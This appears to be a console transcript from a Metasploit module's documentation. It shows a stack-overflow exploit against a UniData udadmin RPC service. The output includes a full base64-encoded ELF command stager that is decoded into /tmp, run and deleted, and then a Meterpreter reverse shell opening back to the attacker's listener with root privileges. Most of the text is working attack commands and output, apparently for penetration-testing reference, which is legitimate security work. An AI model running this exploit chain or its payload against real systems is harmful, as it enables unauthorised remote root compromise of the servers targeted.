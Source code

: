 ```
   ----   ---------------  --------  -----------
   LHOST  10.0.0.179       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   1   8.2.4

View the full module info with the info, or info -d command.

msf6 exploit(linux/misc/unidata_udadmin_password_stack_overflow) > exploit

[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
[+] 10.0.0.198:31438 - The target is vulnerable.
[*] 10.0.0.198:31438 - Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAGgEAAAAAAAC8AQAAAAAAAAAQAAAAAAAAajlYDwVIhcB0CEgx/2o8WA8FBHAPBWo5WA8FSIXAdeox/2oJWJm2EEiJ1k0xyWoiQVpqB1oPBUiFwHhRagpBWVBqKViZagJfagFeDwVIhcB4O0iXSLkCABFcCgAAs1FIieZqEFpqKlgPBVlIhcB5JUn/yXQYV2ojWGoAagVIiedIMfYPBVlZX0iFwHnHajxYagFfDwVean5aDwVIhcB47f/m>>'/tmp/dkwAq.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/xHIVV' < '/tmp/dkwAq.b64' ; chmod +x '/tmp/xHIVV' ; '/tmp/xHIVV' ; rm -f '/tmp/xHIVV' ; rm -f '/tmp/dkwAq.b64'"]
[*] 10.0.0.198:31438 - Connecting to UniRPC endpoint udadmin
[*] 10.0.0.198:31438 - Authenticating to RPC service as iSPJhHXcpJSAgpM with a stack-overflowing password
[*] 10.0.0.198:31438 - Payload sent
[*] 10.0.0.198:31438 - Command Stager progress - 100.00% done (863/863 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 10.0.0.198
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.198:40548) at 2023-01-30 14:16:32 -0800

meterpreter > getuid
Server username: root
```
